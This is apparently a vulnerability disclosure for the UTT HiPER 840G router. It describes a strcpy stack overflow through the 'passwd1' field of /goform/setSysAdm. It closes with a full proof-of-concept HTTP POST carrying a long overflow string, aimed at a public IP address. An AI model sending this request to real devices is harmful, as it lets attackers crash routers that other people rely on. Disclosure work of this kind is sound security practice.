


# Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** HiPER 840G

**Affected firmware version:**  <=V3v3.1.1-190328

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌]([UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/search.php?hl=zh-CN&q=HiPER+840G))

# Overview

UTT HiPER 840G router has a serious overflow vulnerability. An attacker can control the parameter passwd1 through the route/goform/setSysAdm, which will cause a buffer overflow. Specifically, it can be achieved through "strcpy(InstPointByName + 36, Var);" to cause a denial of service attack.

# Vulnerability details

The API for invoking the function



A stack overflow vulnerability was triggered in this place，Passwd1 passes in a large amount of content and splices it into InstPointByName memory, causing a stack overflow




# POC

```
POST /goform/setSysAdm HTTP/1.1
Host: 113.194.69.188:2001
Content-Length: 13
Cache-Control: max-age=0
Authorization: Digest username="admin", realm="UTT", nonce="4eb8abe5f1c43af173a83b013f04dc16", uri="/goform/formFireWallGlobalConfig", algorithm=MD5, response="d7988dad90d2addd4648cede74452769", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000000a1, cnonce="57d637cf4a60bad2"
Origin: http://113.194.69.188:2001
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.194.69.188:2001/FireWall.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zhcn; utt_bw_rdevType=; td_cookie=2511958242
Connection: close

passwd1=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


